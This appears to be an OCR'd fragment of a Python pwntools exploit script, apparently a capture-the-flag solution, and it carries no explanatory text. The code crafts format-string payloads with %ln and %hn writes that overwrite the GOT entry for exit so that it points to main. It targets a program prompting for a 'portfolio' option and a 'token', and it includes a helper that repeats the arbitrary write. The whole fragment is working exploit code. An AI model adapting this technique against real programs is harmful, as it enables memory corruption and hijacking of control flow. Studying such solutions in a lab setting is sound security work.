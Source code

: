 ```py
io.recvuntil("portfolio\n")
io.sendline("1")

system = 0x004006f0
free = 0x00602018
printf = 0x00602038
exit = 0x00602068
main = 0x00400b95

got = exit
target = main

testStr = ""
testStr += "%.0s" * 10
testStr += "%{}x".format(printf)
testStr += "%12$lln"
testStr += "%.0s" * 1

formatStr = ""
written = 0

formatStr += "%16x" * 10
written += 16 * 10

formatStr += "%{}x".format(got - written)
formatStr += "%ln"
written = got

formatStr += "%16x" * 6
written += 16 * 6

formatStr += "%{}x".format(((target % 0x10000) - (written % 0x10000)) % 0x10000)

#formatStr += "---%p"
formatStr += "%hn"

print(formatStr)

pause()

io.recvuntil("token?\n")
#io.sendline('%12$p')
#io.sendline(testStr)
io.sendline(formatStr)

# print(io.recvuntil("portfolio\n").decode())



def buildStack(addr):
    formatStr = ""
    written = 0

    formatStr += "%16x" * 10
    written += 16 * 10
    formatStr += "%{}x".format(addr - written)
    formatStr += "%ln"

    io.recvuntil("portfolio\n")
    io.sendline("1")
    io.recvuntil("token?\n")
    io.sendline(formatStr)

```